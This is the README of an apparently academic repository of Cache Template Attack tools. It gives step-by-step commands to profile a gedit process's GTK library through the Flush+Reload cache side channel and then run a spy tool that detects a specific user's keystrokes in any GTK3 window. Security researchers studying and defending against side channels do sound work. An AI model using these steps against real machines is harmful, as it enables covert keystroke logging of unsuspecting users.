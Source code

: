 # Cache Template Attacks
This repository contains several tools to perform Cache Template Attacks.

Cache Template Attacks are a new generic attack technique, allowing to profile and exploit cache-based information leakage of any program automatically, without prior knowledge of specific software versions or even specific system information.

The underlying cache attack used in this repository is Flush+Reload as presented by Yarom and Falkner in "[FLUSH+RELOAD: a High Resolution, Low Noise, L3 Cache Side-Channel Attack](https://eprint.iacr.org/2013/448.pdf)" (2014).

## One note before starting

The programs should work on x86-64 Intel CPUs independent of the operating system (as long as you can compile it). Different OS specific version of the tools are provided in subfolders.

**Warning:** This code is provided as-is. You are responsible for protecting yourself, your property and data, and others from any risks caused by this code. This code may not detect vulnerabilities of your applications. This code is only for testing purposes. Use it only on test systems which contain no sensitive data.

## Getting started: Calibration
Before starting the Cache Template Attack you have to find the cache hit/miss threshold of your system.

Use the calibration tool for this purpose:
```
cd calibration
make
./calibration
```
This program should print a histogram for cache hits and cache misses. Based on the histogram it suggests a suitable threshold value (this value is also returned by the program).
**Note:** In most programs I defined a constant MIN_CACHE_MISS_CYCLES. Change it based on your threshold, if necessary.

## Getting started: Keypresses (with libxdotool)
It is helpful to start with well observable events like key strokes and an application which is known to process such events (for instance an editor). You find the profiling tools in the profiling folder.

In this example we perform some steps by hand to illustrate how Cache Template Attacks work.
Therefore, we will first find the address range to attack.
```
$ cat /proc/`ps -A | grep gedit | grep -oE "^[0-9]+"`/maps | grep r-x | grep gdk-3
7fc963a05000-7fc963ab4000 r-xp 00000000 fc:01 2637370                    /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2
```
We do not care about the virtual addresses, but only the size of the address range and the offset in the file (which is 00000000 in this example).
**Note:** This is also the reason why we don't have to think about address space layout randomization.

This line can directly be passed to the profiling tool in the following step. We will create a Cache Template in this step. Using the libxdo library. Be sure to install it before trying this.

**Note:** There is a second version which runs without libxdo, but then you have to issue the events by some other means.

During the profiling we will simulate a huge number of key presses. Therefore, your test system will probably not be usable for a few minutes to hours. Switch to an already opened gedit window before ./spy is started.
```
cd profiling/linux_low_frequency_example
make
echo "switch to gedit window"
sleep 5; ./spy 200 7fc963a05000-7fc963ab4000 r-xp 00000000 fc:01 2637370                    /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2 > libgdk.csv
```
The resulting log file is in a format which can be parsed by LibreOffice Calc or similar software.
You can analyze information leakage through the cache using this log file.

**Note:** The spy.sh script does this part automatically, it profiles all shared libraries and binary files loaded by the program under attack (for instance gedit).

You are generally looking for events which have single high peaks, like the following:
```
file,  addr,   0,   1,   2,   3,   4,   5,   6,   7,   8,   9,   a,   b,   c,   d,   e,   f,   g,   h,   i,   j,   k,   l,   m,   n,   o,   p,   q,   r,   s,   t,   u,   v,   w,   x,   y,   z
/usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2, 0x85ec0,=   3/ 110,=   0/ 112,=   0/ 117,=   0/ 122,=   0/ 120,=   1/ 123,=   0/ 125,=   0/ 123,=   1/ 124,=   0/ 124,=   1/ 123,=   0/ 120,=   0/ 122,=   0/ 121,=   0/ 122,=   0/ 123,=   0/ 122,=   0/ 123,=   1/ 123,=   1/ 121,=   0/ 118,=   0/ 123,=   0/ 122,= 126/ 122,=   0/ 122,=   2/ 117,=   0/ 117,=   0/ 119,=   0/ 121,=   0/ 123,=   3/ 118,=  14/ 122,=   0/ 120,=   0/ 122,=   0/ 117,=   4/ 116
```
This one had 126 cache hits during 122 key presses of the key N. And almost none when pressing other keys.

To verify our results we will now use the generic exploitation spy tool:
```
cd exploitation/generic
make
./spy /usr/lib/x86_64-linux-gnu/libgdk-3.so.0.1200.2 0x85ec0
```
Now this tool prints a message exactly when a user presses N (in any GTK3 window).

## Getting started: Keypresses (without libxdotool)
Without libxdotool we can use the generic low frequency profiling tool.
This tool requires you to generate the events somehow. Depending on what you want to profile this can be another program simulating key strokes, a jammed key, a program which constantly triggers the event to exploit (an encryption...).
In our case we will just jam a key and create a Cache Template showing which addresses react on key strokes. To filter false positive cache hits we should then perform a second profiling scan without jamming a key.


